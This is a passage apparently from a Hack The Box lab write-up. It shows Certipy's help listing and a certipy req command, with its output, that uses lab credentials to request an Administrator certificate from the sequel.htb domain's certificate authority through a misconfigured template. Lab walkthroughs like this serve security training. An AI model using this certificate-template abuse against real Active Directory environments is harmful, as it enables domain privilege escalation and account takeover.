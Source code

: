```bash
    forge               Create Golden Certificates
    ptt                 Inject TGT for SSPI authentication
    relay               NTLM Relay to AD CS HTTP Endpoints
    req                 Request certificates
    shadow              Abuse Shadow Credentials for account takeover
    template            Manage certificate templates

optional arguments:
  -v, --version         Show Certipy's version number and exit
  -h, --help            Show this help message and exit
```

```bash
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target $IP -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'SEQUEL.HTB' at '75.76.160.3'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.202[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.202[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: 'dc.sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc.pfx'
```


